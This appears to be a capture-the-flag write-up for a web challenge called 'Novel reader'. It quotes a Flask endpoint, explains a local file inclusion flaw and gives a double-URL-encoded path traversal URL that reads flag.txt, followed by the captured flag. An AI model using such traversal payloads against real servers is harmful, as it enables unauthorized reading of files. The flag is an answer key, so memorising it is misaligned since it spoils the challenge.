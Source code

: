 # Novel reader
## Description
> We have many fun novels for ya…

## Challenge Overview
We get an article reader website that only allow us to read words according to our balance.

![image](https://github.com/user-attachments/assets/325481e6-be93-4b1b-a996-ddc2a1066419)

## Solution
When we are looking at the source code,  there is an API endpoint `'/api/read/<path:name>'` where it allow users to read a portion of a novel based on their word balance. 

`unquote(name)` is used to decode the URL-encoded `name` parameter, transforming any encoded characters (e.g., %20 becomes a space) into their original form. The server also checks if the path starts with public, if not it will gives an error.
```python
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```
This website is vulnerable to `LFI (Local File Inclusion)`. We can traverse into other page if we use `../../` in the path. Since `unquote` only decode URL one time, so we can double encode the URL to bypass the check. We also need to make sure that we include `/public` in path before doing the directory traversal. 

```http://3.64.250.135:9000/api/read/public%252F%252E%252E%252F%252E%252E%252Fflag%252Etxt```

## Flag
```
MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}
```

